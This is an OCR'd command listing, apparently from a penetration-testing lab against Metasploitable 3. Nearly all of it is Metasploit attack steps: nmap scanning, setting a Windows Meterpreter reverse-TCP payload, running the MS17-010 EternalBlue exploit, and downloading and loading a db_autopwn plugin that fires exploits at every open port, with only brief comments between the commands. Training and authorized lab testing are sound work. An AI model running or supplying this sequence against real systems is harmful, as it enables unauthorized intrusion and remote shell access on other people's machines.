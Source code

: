 ```bash
$ systemctl start postgresql && msfdb init && msfconsole
msf6 > workspace -a Vuln_Scan
msf6 > setg RHOST [TARGET]
msf6 > setg RHOSTS [TARGET]
msf6 > db_nmap -sS -sV -O [TARGET] {-p-}
# the -p- flag is optional, but it would be recommended to use on an actual pentest,
# due to the several amount of ports and services that may be exploited.
msf6 > hosts
msf6 > services
# this commands perform a query on the postgresql database that contains the output
# of the nmap command that we ran with db_nmap.
msf6 > search type:exploit name:Microsoft IIS
# search and keep searching until you find a suitable exploit for the target. this might
# be tedious, but we need to do it.
msf6 > use exploit/multi/http/glassfish_deployer
msf6 exploit(multi/http/glassfish_deployer) > info
# check what versions this exploit targets
msf6 exploit(multi/http/glassfish_deployer) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/glassfish_deployer) > set APP_RPORT [PORT]
msf6 exploit(multi/http/glassfish_deployer) > set USERNAME [USERNAME]
msf6 exploit(multi/http/glassfish_deployer) > back
# we'll check this later.
msf6 > searchsploit "[SERVICE]"
# this is an external command, useful to find exploits on the internet.
msf6 > searchsploit "[SERVICE]" | grep -e "Metasploit"
# this will only show Metasploit modules.
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiiary(scanner/smb/smb_ms17_010) > run
msf6 auxiiary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
# Metasploitable 3 is vulnerable to the MS17-010, so this will probably work.
msf6 exploit(windows/smb/ms17_010_eternalblue) > back
msf6 > exit
$ sudo wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb /opt/metasploit/plugins
# for arch linux
$ sudo wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb /usr/share/metasploit/plugins
# for ubuntu and others
$ msfconsole
msf6 > load db_autopwn
msf6 > db_autopwn -p -t 
# this will run exploits for ALL ports regardless of SERVICE!
msf6 > db_autopwn -p -t -PI [PORT]
# this will only target the given ports REGARDLESS OF SERVICE! it based the exploitation on
# typically found services on N port.
msf6 > analyze
# this will check for exploits and tell them to you what vulnerabilities are available for exploitation.
msf6 > vulns
# everything found by the analyze command will be put here.
```
